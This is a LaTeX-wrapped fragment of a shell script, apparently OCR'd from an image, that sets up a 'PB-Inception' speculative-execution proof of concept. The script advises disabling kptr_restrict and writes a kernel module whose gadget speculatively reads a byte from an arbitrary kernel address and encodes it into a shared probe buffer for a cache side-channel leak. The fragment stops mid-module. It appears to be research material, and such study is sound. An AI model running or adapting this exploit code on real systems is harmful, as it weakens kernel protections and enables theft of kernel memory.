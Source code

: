 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
[[ -r /sys/devices/system/cpu/vulnerabilities/spectre_v2 ]] && cat /sys/devices/system/cpu/vulnerabilities/spectre_v2 || warn "Cannot read spectre_v2"
sysctl kernel.kptr_restrict 2>/dev/null | grep -q ' = 0' || warn "kptr_restrict != 0 (set: sudo sysctl -w kernel.kptr_restrict=0)"

################################# workspace

info "Creating workspace at ${WORKDIR}"
rm -rf "$WORKDIR"; mkdir -p "$KMOD_DIR" "$USER_DIR"

################################# kernel module

echo "[*] Writing kernel gadget source"
cat > "${KMOD_DIR}/pbinc_gadget.c" << 'EOF'
#include <linux/module.h>
#include <linux/io.h>
#include <linux/sysfs.h>

#define PROBE_SIZE (4096 * 256)

// Mapped kernel VA of the SHARED buffer (mapped via ioremap_cache())
static void __iomem *probe_kva = NULL;

// Physical address of the SHARED buffer (set by user via sysfs)
static phys_addr_t probe_pa = 0;

// Kernel virtual address to read the leaked byte from (set via sysfs)
static void *leak_source_va = NULL;

// PB-Inception Data Cache (DC) Gadget
// Speculatively executed via mispredicted RET
// Loads 1 byte from kernel address (leak_source_va) and
// encodes it into the SHARED probe buffer at [val << 12]
noinline notrace void pbinc_dc_gadget(void)
{
    if (!probe_kva || !leak_source_va)
        return;
    
    // Load the secret byte (must be mapped and readable)
    u8 val = *(volatile u8 *)leak_source_va;
    
    // Encode it into the SHARED probe buffer at offset: val * 4096
    writeb(1, probe_kva + ((size_t)val << 12));
}
EXPORT_SYMBOL_GPL(pbinc_dc_gadget); // Make the gadget address visible via kallsyms/sysfs

// Sets the physical address of the 1 MiB SHARED buffer
// Maps it with ioremap_cache() so the gadget can access it
static ssize_t probe_pa_store(struct kobject *kobj, struct kobj_attribute *attr,
                              const char *buf, size_t count)
{
    kstrtoull(buf, 0, &probe_pa);
    
    // Unmap old region if previously mapped
    if (probe_kva) iounmap(probe_kva);

    // Map the shared physical buffer into kernel VA space
    probe_kva = ioremap_cache(probe_pa, PROBE_SIZE);
    return count;
}


\end{lstlisting}
\end{document}

